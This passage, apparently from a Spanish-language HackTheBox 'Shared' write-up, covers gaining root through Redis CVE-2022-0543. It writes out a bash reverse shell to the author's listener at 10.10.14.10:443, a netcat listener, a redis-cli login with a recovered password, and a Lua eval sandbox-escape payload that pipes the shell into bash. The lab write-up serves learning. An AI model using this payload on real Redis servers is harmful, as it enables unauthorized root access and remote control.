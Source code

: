 ![](/assets/images/HTB/Shared-HackTheBox/redis_connector_dev2.webp)

Y encuentro lo que parece una credencial del redis, pero sigo sin nada sólido más que esa credencial.

Por lo que decido buscar vulnerabilidades de redis y encuentro lo siguiente:

[https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md)

He de loguearme con redis-cli usando la contraseña que encontré, crear una rev shell en bash y ejecutar el siguiente comando:

```bash
# Reverse Shell Bash
echo "bash -i >& /dev/tcp/10.10.14.10/443 0>&1" > /tmp/shell
```
```bash
# Pongo netcat en escucha en el puerto 443
nc -lnvp 443
```

```bash
# Ejecuto Redis con la contraseña encontrada e introduzco el siguiente comando:
==============================================================================
redis-cli --pass F2WHqJUz2WEz=Gqq
==============================================================================
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /tmp/shell | bash"); local res = f:read("*a"); f:close(); return res' 
```

![](/assets/images/HTB/Shared-HackTheBox/root.webp)

Y por fin me he convertido en root y ya puedo leer la flag root.
